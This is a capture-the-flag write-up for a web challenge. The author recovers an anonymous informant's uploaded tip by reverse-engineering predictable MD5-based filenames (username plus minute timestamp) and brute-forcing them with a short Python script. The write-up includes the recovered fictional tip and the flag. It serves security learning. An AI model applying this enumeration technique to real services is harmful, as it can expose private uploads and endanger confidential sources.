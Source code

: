 *An anonymous informant identity was compromised today. For now, the only communication between us and the informant has been through via our tip hotline. Could you figure out how the identity of the source may have been exposed?*

In this CTF challenge, from the web category, we are provided with a website at: https://bequick-news.chall.uiactf.no

The homepage tells us this website is a tip-submitting website where users can upload news story ideas or tips. Clicking the "Submit Tip" button brings us to the /upload directory.

We can view the source-code for this directory and analyze the upload functionality.

```
document.getElementById('uploadButton').addEventListener('click', function() {
    const fileInput = document.getElementById('fileInput');
    const originalFile = fileInput.files[0];

    if (!originalFile) {
        alert('Please select a file to upload.');
        return;
    }

    // Get cookie value
    const userCookie = getCookie('user');
    if (!userCookie) {
        alert('User cookie not found.');
        return;
    }

    // Get current timestamp in minutes
    const timestamp = Math.floor(Date.now() / 60000);

    // Generate filename
    const rawString = userCookie + timestamp;
    const secure = CryptoJS.MD5(rawString).toString();
    const newFileName = secure + '.txt';

    // Create FormData and append the file
    const formData = new FormData();
    formData.append('file', originalFile, newFileName);

    // Upload file
    // Replace 'your-server-endpoint' with your actual upload handling endpoint
    fetch('upload-tips', {
        method: 'POST',
        body: formData
    })
    .then(response => response.json())
    .then(data => console.log(data))
    .catch(error => console.error(error));
});

// Function to get cookie by name
function getCookie(name) {
    const value = `; ${document.cookie}`;
    const parts = value.split(`; ${name}=`);
    if (parts.length === 2) return parts.pop().split(';').shift();
}
```

It seems like the script gets our username from the cookie, aswell as the current timestamp in minutes, then concatenates the strings before performing a md5 hash on it. When the file is uploaded, the filename is then replaced with ```<hash>.txt```

Therefore it seems like the goal of the challenge is to find the correct file that the anonymous informant uploaded.

If we try to upload a file, we are faced with the following error / response:

```
For now, we have limited access to this functionality to a few organizations. Only the shared user 'tipuser' is allowed to upload for now, to stop the recent waves of fake tips. Want access? Contact us.
```

From this, we find out that only the user "tipuser" is allowed to upload files for now, but simply changing the cookie value did not allow us to upload anything. It seems like the functionality is disabled for this challenge. I also found the "Contact us" part interesting. 

I therefore tried pathing to /contact, but this did not yield any results. I then tried pathing to /about, which existed. We were then faced with a standard, placeholder about page. It said:

```This is an About page for the Intro to Flask article. Don't I look good? Oh stop, you're making me blush.```

When googling this peculiar line, i found this tutorial for the flask framework: 
```https://code.tutsplus.com/an-introduction-to-pythons-flask-framework--net-28822t```

This tutorial showed the file structure. If they used this flask tutorial, the website's file-structure should be similair

```
├── app
│   ├── static
│   │   ├── css
│   │   ├── img
│   │   └── js
│   ├── templates
│   ├── routes.py
│   └── README.md
```

I tried pathing to /static, and it existed. Inside of static there were two folders, *css* and *tmp_upload*

This seemed like the destination for all the uploaded files, considering folders like "uploads", "files" and "tips" don't exist.

Given the fact we have the username *tipuser* and the destination folder */static/tmp_upload*, our team began bruteforcing different timestamps. With no luck, my teammate instead began bruteforcing the current timestamp (in minutes). The thought process is that the filename might update one per minute, which makes sense considering the challenge name "**BeQuick**"

With the following solve script, we were eventually given the flag:

```
import hashlib
import time
import requests
import math

username = "tipuser"
url = "https://bequick-news.chall.uiactf.no/static/tmp_upload/"

# Calculate current minute
timestamp = math.floor(time.time() / 60)

counter = 0
while 1:
    hash_name = hashlib.md5(username.encode() + str(timestamp).encode()).hexdigest()
    filename = hash_name + ".txt"

    request_url = url + filename
    r = requests.get(request_url) 
    print(timestamp, filename, username.encode() + str(timestamp).encode(), r.status_code, counter, request_url) 
    counter += 1
    if r.status_code != 404:
        print(r.text)
        break
```
*Note, this isn't the actual script used in the challenge. This is a recreation by me, but it is functionally the same.*

```
28489226 ebd9f3cc111d926c4785702305efa6e5.txt b'tipuser28489226' 404 22 https://bequick-news.chall.uiactf.no/static/tmp_upload/ebd9f3cc111d926c4785702305efa6e5.txt
28489226 ebd9f3cc111d926c4785702305efa6e5.txt b'tipuser28489226' 404 23 https://bequick-news.chall.uiactf.no/static/tmp_upload/ebd9f3cc111d926c4785702305efa6e5.txt
28489226 ebd9f3cc111d926c4785702305efa6e5.txt b'tipuser28489226' 404 24 https://bequick-news.chall.uiactf.no/static/tmp_upload/ebd9f3cc111d926c4785702305efa6e5.txt
28489226 ebd9f3cc111d926c4785702305efa6e5.txt b'tipuser28489226' 200 25 https://bequick-news.chall.uiactf.no/static/tmp_upload/ebd9f3cc111d926c4785702305efa6e5.txt
I am reaching out to disclose information regarding my former employer, a leading player in Norway's salmon industry, involved in unethical tax evasion practices. As a recent member of their finance department, I witnessed firsthand the implementation of dubious accounting methods designed to significantly minimize tax liabilities.

My opposition to these practices ultimately led to my dismissal. I believe this matter deserves public attention due to its potential impact on tax fairness and the integrity of the industry. I am willing to provide further details and evidence to support an investigation into these allegations.

Please contact me if you are interested in pursuing this story. you can contact me on my private email: awilliams@proton.me
 
UIACTF{pr0tect_your_sources}
```

The flag is therefore: ```UIACTF{pr0tect_your_sources}```

